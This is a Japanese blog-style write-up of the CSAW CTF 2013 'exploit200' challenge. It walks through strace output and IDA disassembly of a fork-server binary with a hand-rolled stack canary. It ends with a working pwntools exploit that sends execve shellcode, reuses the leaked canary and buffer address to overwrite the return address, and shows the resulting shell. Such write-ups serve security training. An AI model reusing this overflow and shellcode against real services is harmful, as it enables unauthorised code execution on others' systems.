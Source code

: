 ```yaml
---
title: "[writeup] CSAW CTF 2013 exploit200"
date: 2020-05-28T00:00:00+09:00
draft: false
langauge: "ja"
toc: true
summary: " "
tags: ["CTF"]
---
```


問題バイナリ
[http://shell-storm.org/repo/CTF/CSAW-2013/Exploitation/Exploitation-2-200/:embed:cite]

まずバイナリを実行してみると、何も表示されず動作が全くわからなかった。
いわゆるfork-server型の問題、初めてだったので他の方のサイトを参考にして進めた。

> $ strace ./exploit2

を実行してシステムコールを追うことができる。

starce結果
```sh
(中略)
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
setsockopt(3, SOL_SOCKET, SO_REUSEADDR, [1], 4) = 0
bind(3, {sa_family=AF_INET, sin_port=htons(31338), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 100)                          = 0
rt_sigaction(SIGCHLD, {sa_handler=0x80487e4, sa_mask=[], sa_flags=SA_RESTART}, NULL, 8) = 0
accept(3, 
```
bind,listen,acceptしている。<br>
バイナリはacceptで外部クライアントからの接続待ちをし、接続されるとfork()を呼び出すことでクライアントの処理を別プロセスに渡す。<br>こうすることで親プロセスとあるクライアントが接続している間に別のクライアントが接続できない事態を避けている。(多分)<br>
ちなみにsin_port=htons(31338)からポート番号が31338だとわかる。

次にexploit2を実行した状態で別のターミナルから接続を行う。
```
pc@surface-pro-3:~$ nc localhost 31338
�:��D��Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:
```
よくわからない文字列が表示された後、入力を受け付ける。
ちなみにこの文字列はhexdumpで確認すると8byteある。<br>
<br>
続いてこのバイト列の正体を知りたいので、IDAを使って見ていく。
IDAでhandleという関数に以下のアセンブリを発見できる。

アセンブリ
```
.text:0804880D ; Attributes: bp-based frame
.text:0804880D
.text:0804880D ; void __cdecl handle(int newsock)
.text:0804880D                 public handle
.text:0804880D handle          proc near               ; CODE XREF: main+2A9↓p
.text:0804880D
.text:0804880D buffer          = byte ptr -80Ch
.text:0804880D cookie          = dword ptr -0Ch
.text:0804880D newsock         = dword ptr  8
.text:0804880D
.text:0804880D                 push    ebp
.text:0804880E                 mov     ebp, esp
.text:08048810                 push    edi
.text:08048811                 push    ebx
.text:08048812                 sub     esp, 820h
.text:08048818                 mov     [ebp+cookie], 0
.text:0804881F                 lea     eax, [ebp+buffer]
.text:08048825                 mov     ebx, eax
.text:08048827                 mov     eax, 0
.text:0804882C                 mov     edx, 200h
.text:08048831                 mov     edi, ebx
.text:08048833                 mov     ecx, edx
.text:08048835                 rep stosd
.text:08048837                 mov     dword ptr [esp], 0
.text:0804883E                 call    _time
.text:08048843                 mov     [esp], eax
.text:08048846                 call    _srand
.text:0804884B                 call    _rand
.text:08048850                 mov     ds:secret, eax
.text:08048855                 mov     eax, ds:secret
.text:0804885A                 mov     [ebp+cookie], eax
.text:0804885D                 lea     eax, [ebp+buffer]
.text:08048863                 lea     edx, [ebp+buffer]
.text:08048869                 mov     [eax], edx
.text:0804886B                 mov     dword ptr [esp+0Ch], 0
.text:08048873                 mov     dword ptr [esp+8], 4
.text:0804887B                 lea     eax, [ebp+buffer]
.text:08048881                 mov     [esp+4], eax
.text:08048885                 mov     eax, [ebp+newsock]
.text:08048888                 mov     [esp], eax
.text:0804888B                 call    _send
.text:08048890                 mov     dword ptr [esp+0Ch], 0
.text:08048898                 mov     dword ptr [esp+8], 4
.text:080488A0                 lea     eax, [ebp+cookie]
.text:080488A3                 mov     [esp+4], eax
.text:080488A7                 mov     eax, [ebp+newsock]
.text:080488AA                 mov     [esp], eax
.text:080488AD                 call    _send
.text:080488B2                 mov     dword ptr [esp+0Ch], 0
.text:080488BA                 mov     dword ptr [esp+8], 63h
.text:080488C2                 mov     dword ptr [esp+4], offset aWelcomeToCsawC ; "Welcome to CSAW CTF.  Exploitation 2 wi"...
.text:080488CA                 mov     eax, [ebp+newsock]
.text:080488CD                 mov     [esp], eax
.text:080488D0                 call    _send
.text:080488D5                 mov     dword ptr [esp+0Ch], 0
.text:080488DD                 mov     dword ptr [esp+8], 1000h
.text:080488E5                 lea     eax, [ebp+buffer]
.text:080488EB                 mov     [esp+4], eax
.text:080488EF                 mov     eax, [ebp+newsock]
.text:080488F2                 mov     [esp], eax
.text:080488F5                 call    _recv
.text:080488FA                 mov     [ebp+buffer+7FFh], 0
.text:080488FE                 mov     edx, [ebp+cookie]
.text:08048901                 mov     eax, ds:secret
.text:08048906                 cmp     edx, eax
.text:08048908                 jz      short loc_8048921
```

これがおそらく子プロセスの処理だろう。<br>
 "Welcome to CSAW CTF.  Exploitation 2 wi".の部分から察するに、call sendによって[esp+4]をクライアントに送信している。<br>
全体でsendが3つあるので、最初の二つ(bufferの先頭アドレスとsecretの値)が「よくわからんバイト列」に当たる。<br><br>
頑張って読んでみると、cookieにsecret(rand)の値が入り、(recvで受け取った)入力値はbufferに入ることがわかる。

最後のcmpでsecretとcookieの値を照合している。<br>
つまり、自前でstack canaryを実装していることになる。<br>

以上を踏まえると、canaryの値を変更しないようにリターンアドレスをシェルコードに向けて書き換えればよい。

エクスプロイトコード
```python
from pwn import *
context(os='linux', arch='i386')

p = remote('localhost',31338)

shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

buf_addr=(p.recv(4))
secret=(p.recv(4))

payload=''
payload+=shellcode
payload+='A'*(0x800-len(shellcode))
payload+=secret
payload+='A'*12
payload+=buf_addr
p.sendline(payload)

p.interactive()
```

実行結果<br>
exploit2を実行しているターミナルでbashが起動する。
```sh
pc@surface-pro-3:~/pwn/csaw2013$ ./exploit2
Got a connection from 127.0.0.1 on port 33280
$ ls
e2.py	  exploit2.id0	exploit2.id2  exploit2.til  miteegashun
exploit2  exploit2.id1	exploit2.nam  fil_chal
$ 
```

